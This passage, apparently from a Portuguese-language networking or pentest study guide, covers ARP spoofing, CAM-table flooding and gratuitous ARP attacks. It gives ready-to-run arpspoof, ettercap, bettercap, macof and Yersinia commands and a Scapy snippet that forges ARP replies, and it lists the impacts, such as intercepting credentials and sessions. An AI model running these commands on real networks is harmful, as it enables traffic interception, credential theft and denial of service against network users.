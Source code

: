 #### Vulnerabilidades e Ataques

**1. ARP Spoofing/Poisoning**

Associar MAC do atacante a IP de outro host (Man-in-the-Middle).

```bash
# arpspoof (dsniff)
# Terminal 1: Spoofar gateway para vítima
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# Terminal 2: Spoofar vítima para gateway
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100

# Terminal 3: Habilitar IP forwarding (MitM)
sudo sysctl -w net.ipv4.ip_forward=1

# Capturar tráfego
sudo tcpdump -i eth0 -w capture.pcap

# ettercap - ARP poisoning com GUI/CLI
sudo ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//

# bettercap - framework moderno
sudo bettercap -iface eth0
> net.probe on
> set arp.spoof.targets 192.168.1.100
> arp.spoof on
> net.sniff on
```

**Impacto**:
- Interceptação de tráfego (credenciais, sessões)
- Modificação de dados
- DoS (descartar pacotes)

**2. ARP Flooding**

Saturar tabela ARP do switch (CAM table overflow).

```bash
# macof (dsniff)
sudo macof -i eth0

# Yersinia
sudo yersinia -I  # Interactive mode
# Selecionar ARP > Launch attack > Flooding

# Resultado: Switch entra em modo "hub", enviando tráfego para todas as portas
```

**3. Gratuitous ARP Attack**

Enviar ARP Reply não solicitado.

```bash
# arping com reply não solicitado
sudo arping -c 1 -A -I eth0 192.168.1.100

# Scapy
from scapy.all import *
arp = ARP(op=2, psrc="192.168.1.1", hwsrc="aa:bb:cc:dd:ee:ff",
          pdst="192.168.1.100", hwdst="ff:ff:ff:ff:ff:ff")
send(arp)
```
